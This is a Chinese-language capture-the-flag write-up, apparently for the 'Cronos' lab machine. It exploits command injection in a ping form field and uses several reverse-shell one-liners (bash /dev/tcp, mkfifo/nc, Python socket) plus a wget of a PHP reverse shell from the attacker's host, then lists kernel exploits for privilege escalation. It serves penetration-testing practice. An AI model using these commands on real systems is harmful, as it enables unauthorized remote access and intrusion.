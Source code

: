 ![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-16/3.PNG)

[Kioptrix Level 2（命令执行漏洞）](https://whale3070.github.io/training/2017/11/01/kioptrix-level-2-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/)

## 获得一个shell

nc为openbsd版本，无-e选项。

bash无-i选项。

选择用php-reverse-shell.php

`command=ping+-c+1&host=8.8.8.8|chmod +x php-reverse-shell.php`

修改`command=ping+-c+1&host=8.8.8.8`后面的命令。

bash -i >& /dev/tcp/10.10.14.7/888 0>&1   

wget http://10.10.14.7:8000/php-reverse-shell.php

chmod +x php-reverse-shell.php

./php-reverse-shell.php

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-16/4.PNG)

python -c 'import pty; pty.spawn("/bin/bash")'

#### 方法二：
kali: `nc -lnvp 6677`
`command=ping+-c+1&host=8.8.8.8|chmod +x php-reverse-shell.php`
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 6677| >/tmp/f

burp repeater——选中上述命令——ctl+U进行url编码

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-16/6.PNG)

虽然反弹了shell，但是会自动退出

#### 方法三
方便快捷
```
nc -lnvp 6677

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",6677));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## 提权
#### 内核漏洞提权（failed）
```
uname -a
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

searchsploit linux 4.4.0
1. Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privilege Escalat 
2. Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation 
3. Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation  
4. Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR 

gcc -h
the program 'gcc' is currently not installed. 

---

```